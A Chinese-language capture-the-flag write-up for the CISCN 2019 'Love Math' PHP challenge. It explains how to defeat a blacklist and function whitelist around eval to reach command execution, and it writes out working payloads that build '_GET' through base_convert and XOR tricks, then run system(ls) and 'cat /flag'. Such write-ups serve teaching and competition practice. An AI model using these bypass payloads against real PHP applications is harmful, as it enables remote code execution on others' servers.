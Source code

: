 # [CISCN 2019 初赛]Love Math

## 知识点

`白名单函数构造RCE`

`php代码审计`

## 解题

```php
$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
```

发现黑名单字符不包含`^`和`.`，同时长度限制在`80`个字符以内

- **动态函数**
  `php`中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数
  例如：`$function = "sayHello";$function();`

- **php中函数名默认为字符串**
  例如本题白名单中的`asinh`和`pi`可以直接异或，这就增加了构造字符的选择

### 1. 方法一

我们想要执行的命令为`system(ls)`，可以通过`动态函数`的方式和`php中函数名默认为字符串`，比如设置白名单的`pi`的值为`_GET`,那么就可以赋值到`pi`变量中绕过过滤正常传值

```php
$$pi 	// $_GET
($$pi)(pi)		// $_GET[pi]
($$pi)(cos)		// $_GET[cos]

// 那么我们组合起来执行命令
($$pi){pi}(($$pi){cos})		// $_GET[pi]($_GET[cos])

这个时候传 pi=system&cos=ls 就可以了
```

现在就是让`$pi`的值为`_GET`，我们用白名单来转,因为`bindec`用不了,我用`bin2hex`，但是`bin2hex`不在`白名单`，我用`base_convert`转出来`hex2bin`

```php
<?php

$b2h = bin2hex("_GET");
echo 'bin2hex("_GET")' . " ==> $b2h";
echo '<br />';
$hd = hexdec($b2h);
echo 'hexdec(bin2hex("_GET"))' . " ==> $hd";

echo '<br />';
echo "hex2bin(dechex(1598506324)) ==> " . hex2bin(dechex(1598506324));

echo '<br />';
echo 'base_convert("hex2bin",36,10) ==> ' . base_convert("hex2bin", 36,10);

echo '<br />';
echo 'base_convert(37907361743,10,36) ==> ' . base_convert(37907361743, 10,36);

echo '<br />';
echo 'base_convert(37907361743,10,36)(dechex(1598506324)) ==> ' . base_convert(37907361743,10,36)(dechex(1598506324));
```

所以构造`payload`

```php
c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){cos})&pi=system&cos=ls
```

![](./img/[CISCN 2019 初赛]Love Math-2.png)

### 2. 方法二

因为`^`和`.`没有被禁用，我们直接用这两个字符来`fuzz`

```php
<?php
$white = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($i=1;$i<=sizeof($white);$i++){
    for ($j=0; $j < 9 ; $j++) { 
        for ($k=0; $k < 9 ; $k++) { 
            $exp = $white[$i] ^ $j . $k;
            if ($exp === '_G') {
                echo "$white[$i] ^ ($j) . ($k) ==> $exp";
                echo "<br />";
            } else if ($exp === 'ET'){
                echo "$white[$i] ^ ($j) . ($k) ==> $exp";
                echo "<br />";
            }
        }
    }
}
```

![](./img/[CISCN 2019 初赛]Love Math-1.png)

我们随便挑两个组合起来就行

```php
c=$pi=(is_finite^(6).(4)).(rad2deg^(7).(5));($$pi){pi}(($$pi){cos})&pi=system&cos=cat /flag
```

![](./img/[CISCN 2019 初赛]Love Math-3.png)

### 3. 方法三

或者直接`cat /flag`，[方法](https://www.cnblogs.com/20175211lyz/p/11588219.html)